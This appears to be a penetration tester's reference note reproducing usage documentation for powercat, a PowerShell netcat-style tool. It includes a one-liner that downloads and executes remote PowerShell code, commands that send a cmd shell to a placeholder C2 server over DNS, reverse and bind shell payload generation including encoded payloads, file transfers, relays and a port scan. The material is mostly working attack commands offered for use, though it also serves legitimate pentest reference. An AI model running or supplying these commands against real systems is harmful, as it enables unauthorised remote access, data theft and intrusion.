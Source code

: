 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/besimorhino/powercat

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

```powershell
Load The Function From Downloaded .ps1 File:
    . .\powercat.ps1
Load The Function From URL:
    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

### Parameters:

```powershell
-l      Listen for a connection.                             [Switch]
-c      Connect to a listener.                               [String]
-p      The port to connect to, or listen on.                [String]
-e      Execute. (GAPING_SECURITY_HOLE)                      [String]
-ep     Execute Powershell.                                  [Switch]
-r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
-u      Transfer data over UDP.                              [Switch]
-dns    Transfer data over dns (dnscat2).                    [String]
-dnsft  DNS Failure Threshold.                               [int32]
-t      Timeout option. Default: 60                          [int32]
-i      Input: Filepath (string), byte array, or string.     [object]
-o      Console Output Type: "Host", "Bytes", or "String"    [String]
-of     Output File Path.                                    [String]
-d      Disconnect after connecting.                         [Switch]
-rep    Repeater. Restart after disconnecting.               [Switch]
-g      Generate Payload.                                    [Switch]
-ge     Generate Encoded Payload.                            [Switch]
-h      Print the help message.                              [Switch]
```

## Basic Connections

By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000
Basic Client, Output as Bytes:
    powercat -c 10.1.1.1 -p 443 -o Bytes
```

## File Transfer

powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).

```powershell
Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile
```

## Relays

Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.

```powershell
TCP Listener to TCP Client Relay:
    powercat -l -p 8000 -r tcp:10.1.1.16:443
TCP Listener to UDP Client Relay:
    powercat -l -p 8000 -r udp:10.1.1.16:53
TCP Listener to DNS Client Relay
    powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
TCP Listener to DNS Client Relay using the Windows Default DNS Server
    powercat -l -p 8000 -r dns:::c2.example.com
TCP Client to Client Relay
    powercat -c 10.1.1.1 -p 9000 -r tcp:10.1.1.16:443
TCP Listener to Listener Relay
    powercat -l -p 8000 -r tcp:9000
```

## DNS and UDP

powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns. **Make sure to add "-e open --no-cache" when running the dnscat2 server.**

```powershell
Send Data Over UDP:
    powercat -c 10.1.1.1 -p 8000 -u
    powercat -l -p 8000 -u
Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
    powercat -c 10.1.1.1 -p 53 -dns c2.example.com
Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
    powercat -dns c2.example.com -e cmd
```

## Generate Payloads

Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.

```powershell
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    powercat -c 10.1.1.15 -p 443 -e cmd -g
Generate a bind tcp encoded command which listens on port 8000:
    powercat -l -p 8000 -e cmd -ge
```

## Misc Usage

powercat can also be used to perform portscans, and start persistent servers.

```powershell
Basic TCP Port Scanner:
    (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
Start A Persistent Server That Serves a File:
    powercat -l -p 443 -i C:\inputfile -rep
```

#shell #reverseshell #filetransfer #relays #portscan #fileserver